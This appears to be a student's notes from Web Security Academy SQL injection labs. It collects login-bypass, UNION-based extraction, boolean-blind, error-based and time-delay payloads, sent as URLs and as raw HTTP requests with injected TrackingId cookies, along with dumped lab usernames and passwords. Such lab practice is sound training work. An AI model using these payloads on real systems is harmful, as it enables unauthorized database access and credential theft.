

### init
`' or 1=1-- -`

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
SELECT * FROM products WHERE category = 'Gifts' or 1=1-- - AND released = 1

```
### bypass
```sql
SELECT NAME, SURNAME FROM USERS WHERE NAME = '%S' AND PASSWORD = '%S';
SELECT NAME, SURNAME FROM USERS WHERE NAME = 'administrator' AND PASSWORD = '%s';
SELECT NAME, SURNAME FROM USERS WHERE NAME = 'administrator'-- -' AND PASSWORD = '%s'; 

```

## UNION attack for numerb of columns
```sql
SELECT PASSWORD, SUBSCRIPTION FROM USERS WHERE NAME = 'txhaka';
SELECT PASSWORD, SUBSCRIPTION FROM USERS WHERE NAME = 'txhaka' ORDER BY 3;-- -';

-- url
https://0a8e00880405bdf2806e8a22009400cf.web-security-academy.net/filter?category=Gifts%27%20order%20by%206--%20-
https://0a8e00880405bdf2806e8a22009400cf.web-security-academy.net/filter?category=Gifts%27%20order%20by%205--%20-
https://0a8e00880405bdf2806e8a22009400cf.web-security-academy.net/filter?category=Gifts%27%20order%20by%205--%20-
https://0a8e00880405bdf2806e8a22009400cf.web-security-academy.net/filter?category=Gifts%27%20order%20by%203--%20- [check]

SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka';
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,2;-- -';

SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT version(),2;-- -';
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT version(),database();-- -';
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT version(),user();-- -';

https://0a8e00880405bdf2806e8a22009400cf.web-security-academy.net/filter?category=Gifts%27%20union%20select%20null,null,null--%20-

```

### UNION attack, finding a columns with text
```sql
https://0a5a00a804e09cca81ca52d2001b0081.web-security-academy.net/filter?category=Pets%27%20union%20select%20null,%27p9AAz9%27,null--%20-

```

### UNION attack, get data from other tables
```sql
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,group_concat(schema_name) from information_schema.schemata;-- -';

SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,schema_name from information_schema.schemata limit 1,1;-- -';
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,schema_name from information_schema.schemata limit 2,1;-- -';
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,schema_name from information_schema.schemata limit 3,1;-- -';

--URL
https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20%27test%27,null--%20-
https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20null,null--%20-

https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20schema_name,null%20from%20information_schema.schemata--%20-

-- ans
pg_catalog
public
information_schema

-- table enumerating
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,table_name from information_schema.tables;
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,table_name from information_schema.tables where table_schema = 'TWITCH';

https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20table_name,null%20from%20information_schema.tables%20where%20table_schema=%27public%27--%20-

```


```sql
SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,column_name from information_schema.columns where table_schema = 'TWITCH' and table_name = 'USERS';

-- URL
https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20null,column_name%20from%20information_schema.columns%20where%20table_schema=%27public%27%20and%20table_name=%27users%27--%20-

-- ans
email
password
username

SELECT PASSWORD,SUBSCRIPTION FROM USERS WHERE USERNAME = 'txhaka' UNION SELECT 1,group_concat(username,':',password) from USERS;
https://0af900500437e0c2838541bb00ec0095.web-security-academy.net/filter?category=Tech+gifts%27%20union%20select%20username,password%20from%20users--%20-

-- ans
administrator
jphtg83r1wa9cgem7w02

wiener
hpxozn1pixzd1gkxutpz

carlos
7z1dcvmr96r9mi80jfwy

```

### UNION attack, multiple values in one column
```sql
https://0a2a009a03484aa780d32120009e00f0.web-security-academy.net/filter?category=Pets%27%20union%20select%20null,username||%27:%27||password%20from%20users--%20-

-- ans
administrator:8azul9w80ngjg6rnl2f1
carlos:xhi6gz6bfipv5le1o6mv
wiener:aqvwn38vie9226y962fn


```
### conditional responses
```bash
GET /filter?category=Gifts HTTP/2
Host: 0aa7000903c058ea82fcbf0500d80084.web-security-academy.net
Cookie: TrackingId=ay0mE9SrIpgC1Ws3' or 1=1 -- -; session=SVS8RjB8KKiPFJ2cNQvTNAQcZ23xNAbq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

- Filtering by name
```bash
Cookie: TrackingId=ay0mE9SrIpgC1Ws3' and (select 'a' from users where username='administrator')='a; session=SVS8RjB8KKiPFJ2cNQvTNAQcZ23xNAbq
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Host: 0aa7000903c058ea82fcbf0500d80084.web-security-academy.net
Cookie: TrackingId=ay0mE9SrIpgC1Ws3' and (select substring(username,2,1) from users where username='administrator')='d; session=SVS8RjB8KKiPFJ2cNQvTNAQcZ23xNAbq

# Getting password length
Cookie: TrackingId=ay0mE9SrIpgC1Ws3' and (select 'a' from users where username='administrator' and length(password)>=20)='a; session=SVS8RjB8KKiPFJ2cNQvTNAQcZ23xNAbq

```

### error responses
```bash
# ERR
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# CORRECT
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF' AND 1=1-- -; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# CORRECT   
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF' AND '1'='1; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# ERR
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF' AND (SELECT 'a')='a; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# CORRECT (ORACLE)
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT 'a' FROM DUAL)||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# err
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT 'a' FROM users)||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv
User-Agent: Mozilla/5.0 (X11; Linux 

# CORRECT
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT 'a' FROM users WHERE rownum=1)||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# CORRECT
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN (2=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# ERROR
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# 200
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>=21)||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# 500
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)>=20)||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# 500
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN SUBSTR(username,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=BbE3PKyiYli6SFX1gXKZGXD3LCGkAxSv

# 200
GET /filter?category=Pets HTTP/2
Host: 0a3c007803934ffa80770dad00ca00b5.web-security-academy.net
Cookie: TrackingId=a3NDRi5at5NWv6DF'||(SELECT CASE WHEN SUBSTR(username,1,1)='f' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'; session=

```

### TIME DELAYS
```bash
SELECT *
FROM TWITCH.USERS
WHERE USERNAME = 'admin';

select * from TWITCH.USERS where username = 'admin' OR 1=1;-- -';
select * from TWITCH.USERS where username = 'admin' and if(substr(database(),1,1)='a',sleep(6),1);-- -';
select * from TWITCH.USERS where username = 'admin' and if(substr(database(),1,1)='t',sleep(6),1);-- -'; # takes 6 seconds

GET /filter?category=Pets HTTP/2
Host: 0aed00690317571382a792ae00ee00b2.web-security-academy.net
Cookie: TrackingId=chmWHccQDTZMZyuR' and sleep(5); session=N8beCoTrvlBgTEqTEGoHyg5MPQpjXvAr

GET /filter?category=Pets HTTP/2
Host: 0aed00690317571382a792ae00ee00b2.web-security-academy.net
Cookie: TrackingId=chmWHccQDTZMZyuR'||pg_sleep(6)-- -; session=N8beCoTrvlBgTEqTEGoHyg5MPQpjXvAr # POSTGRES

GET /filter?category=Pets HTTP/2
Host: 0a1300f203f94835831a33c1008a006a.web-security-academy.net
Cookie: TrackingId=KN6W4BY9L9YLZdT2'||(select case when (1=1) then pg_sleep(6) else pg_sleep(0) end from users where username='administrator')-- -; session=6GKFcHrKOCQqar7k66eu6W9kjhm2MTQK

GET /filter?category=Pets HTTP/2
Host: 0a1300f203f94835831a33c1008a006a.web-security-academy.net
Cookie: TrackingId=KN6W4BY9L9YLZdT2'||(select case when (1=1) then pg_sleep(6) else pg_sleep(0) end from users where username='administrator' and length(password)>=20)-- -; session=6GKFcHrKOCQqar7k66eu6W9kjhm2MTQK

GET /filter?category=Pets HTTP/2
Host: 0a1300f203f94835831a33c1008a006a.web-security-academy.net
Cookie: TrackingId=KN6W4BY9L9YLZdT2'||(select case when substr(username,1,1)='a' then pg_sleep(6) else pg_sleep(0) end from users where username='administrator')-- -; session=6GKFcHrKOCQqar7k66eu6W9kjhm2MTQK

GET /filter?category=Pets HTTP/2
Host: 0a1300f203f94835831a33c1008a006a.web-security-academy.net
Cookie: TrackingId=KN6W4BY9L9YLZdT2'||(select case when substr(password,1,1)='a' then pg_sleep(6) else pg_sleep(0) end from users where username='administrator')-- -; session=6GKFcHrKOCQqar7k66eu6W9kjhm2MTQK


```

